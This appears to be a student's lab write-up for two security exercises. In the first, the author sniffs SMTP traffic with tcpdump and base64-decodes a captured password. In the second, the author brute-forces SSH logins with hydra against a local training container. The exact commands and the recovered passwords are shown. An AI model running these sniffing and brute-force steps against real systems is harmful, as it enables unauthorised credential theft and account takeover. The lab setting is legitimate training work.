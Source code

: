 ## Attack is the best defense

### For task 1 -


> Process
>> in `terminal 1`
```
sudo tcpdump -i eth0 port 587 -w smtp_capture.pcap
```

>> in `terminal 2`
```
./user_authenticating_into_server
```
when `./user_authenticating_into_server` finishes executing, stop process in `terminal 1`

then
`tcpdump -A -r smtp_capture.pcap` to inspect the sniffed data

#### Result
I got `bXlwYXNzd29yZDk4OTgh` as the probable password

using `echo "bXlwYXNzd29yZDk4OTgh" | base64 --decode` I got `mypassword9898!` as the password


### For task 2 -

> Process
>> After starting the docker container/server - `sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1` and cleaning the ./password_dictionary.txt file (retaining only passwords of char. length 11) - `sed -i '/^.\{11\}$/!d' password_dictionary.txt`

I used `hydra -l sylvain -P ./password_dictionary.txt -s 2222 ssh://127.0.0.1`

#### Result
I got the hydra response
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-07 13:55:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22495 login tries (l:1/p:22495), ~1406 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
with `password123` as the password
